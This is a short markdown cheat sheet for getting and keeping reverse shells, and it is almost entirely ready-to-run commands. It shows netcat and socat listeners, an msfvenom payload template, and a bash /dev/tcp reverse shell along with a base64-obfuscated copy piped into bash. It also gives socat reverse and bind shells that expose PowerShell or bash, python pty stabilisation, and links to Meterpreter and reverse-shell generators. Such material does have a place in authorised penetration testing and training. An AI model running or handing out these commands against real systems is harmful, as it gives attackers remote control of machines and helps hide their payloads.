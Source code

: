 ## Invoke listener for a reverse shell

```nix
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```

## Generate shell using msfvenom

```nix
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```

## Base64 technique

```nix
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```

## Upgrade / Stabilize Shell

```nix
python -c 'import pty; pty.spawn("/bin/bash")
```

```nix
export TERM=xterm
```

## Using socat

```nix
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Upgrade Normal Shell to Meterpreter (Metasploit)

[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources

- [https://www.revshells.com/](https://www.revshells.com/)